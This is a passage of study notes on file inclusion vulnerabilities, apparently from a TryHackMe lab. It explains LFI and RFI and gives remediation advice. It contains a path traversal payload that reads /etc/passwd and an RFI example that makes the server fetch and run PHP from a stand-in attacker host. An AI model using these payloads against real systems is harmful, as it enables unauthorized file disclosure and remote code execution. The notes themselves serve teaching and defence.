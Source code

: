 2. The web application asks to supply input that has to include a directory such as `http://webapp.thm/index.php?lang=languages/EN.php`.
3. Include the directory in the payload to exploit this: `?lang=languages/../../../../../etc/passwd`.

## Remote File Inclusion (RFI)
* Technique to include remote files into a vulnerable application.
* RFI occurs when improperly sanitising user input, allowing an attacker to inject an external URL into include function.
* One requirement for RFI is that the `allow_url_fopen` option needs to be on.
* The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server.
* Other consequences of a successful RFI attack include:
  * Sensitive Information Disclosure.
  * Cross-site Scripting (XSS).
  * Denial of Service (DoS).
* An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server.
* Then the malicious file is injected into the `include` function via HTTP requests, and the content of the malicious file executes on the vulnerable application server.

### Example of Successful RFI Attack
1. An attacker hosts a PHP file on their own server `http://attacker.thm/cmd.txt`.
   * `cmd.txt` contains a printing message `Hello THM`: `<?PHP echo "Hello THM"; ?>`.
2. The attacker injects the malicious URL, which points to the attacker's server, such as `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`.
3. If there is no input validation then the malicious URL passes into the `include` function.
4. The web app server sends a `GET` request to the malicious server to fetch the file.
   * The web app includes the remote file into the `include` function to execute the PHP file within the page and send the execution content to the attacker.
   * In this case, the current page somewhere will display the `Hello THM` message.

### Remediation
* As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods.
* To prevent the file inclusion vulnerabilities, some common suggestions include:
  * Keep system and services, including web application frameworks, updated with the latest version.
  * Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
  * A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
  * Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as allow_url_fopen on and allow_url_include.
  * Carefully analyse the web application and allow only protocols and PHP wrappers that are in need.
  * Never trust user input, and make sure to implement proper input validation against file inclusion.
  * Implement whitelisting for file names and locations as well as blacklisting.
